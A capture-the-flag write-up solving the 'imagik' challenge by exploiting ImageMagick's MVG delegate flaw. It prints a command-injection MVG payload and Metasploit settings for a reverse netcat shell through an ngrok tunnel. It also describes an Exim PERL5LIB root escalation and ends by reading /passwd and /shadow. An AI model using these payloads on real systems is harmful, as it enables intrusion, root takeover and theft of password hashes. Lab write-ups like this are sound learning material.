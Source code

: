 # imagik

## Description

![](images/imagik.png)

## Steps

When reading the description it appears that the CTF implies a website that can convert MVG to PNG. That lead to ImageMagick.

1. First I gather some intel on ImageMagick: https://www.exploit-db.com/exploits/39767. That link explain that some code can be inserted in a .mvg file

`push graphic-context`
`viewbox 0 0 640 480`
`fill 'url(https://example.com/image.jpg"|ls "-la")`
`op graphic-context`

2. After uploading the file, the website show a list of files, meaning the inserted code work !

3. The goal is to get a reverse shell so we can enter some commands that will be executed on the target machine. Personally I used ngrok to open a connection on the target machine. 
`ngrok tcp 4444`
In another terminal I launch a netcat
`nc -lvp 4444`

4. Let's open Metasploit to find some exploit and paylod to use.

`search imagemagick`

5. Select the one highlighted by metasploit.

![](images/imagik1.png)
`use exploit/unix/fileformat/imagemagick_delegate`

6. Now it's time to configure it. Let' type :
`show options` to get all options available
`set TARGET 1` to specify which target we will use
`set FILENAME msf.mvg` to change the name of file generated by Metasploit
`set LHOST 2.tcp.eu.ngrok.io` to specify your ngrok tcp tunnel (yours will be different)

7. Le't use a payload from metasploit
![](images/imagik1.png)
`show payloads` to select one of the multiple payloads.
`set payload/cmd/unix/reverse_netcat` I choose this one because of netcat
`run` to get a msf.mvg file.

8. Upload the file on the website. You should see in the ngrok dashboard and in the terminal with netcat listening a connection.

9. Now i's time to scan the server with some command like :
`ls`
`ps aux`

10. I saw a process named Exim4, which got a vulnerability : https://www.exploit-db.com/exploits/39549

11. I entered this script, located at this url : https://github.com/hackerhouse-opensource/exploits/blob/master/cve-2016-1531.sh

The exploit takes advantage of a vulnerability in Exim where it improperly handles certain Perl library paths.
By setting `PERL5LIB` to `/tmp` we make Exim load the malicious `root.pm` module.
The `-Mroot` option forces the loading of the module.
When Exim runs with these settings, it executes the module with elevated privileges.
the module then spawns a shell (/bin/sh), which inherits Exim's elevated privileges.

12. Type `whoami` to see if the script worked by giving us root privilege.

13. We can know look for the files needed to obtain the flags and finish the challenge.
`cat /passwd`
`cat /shadow`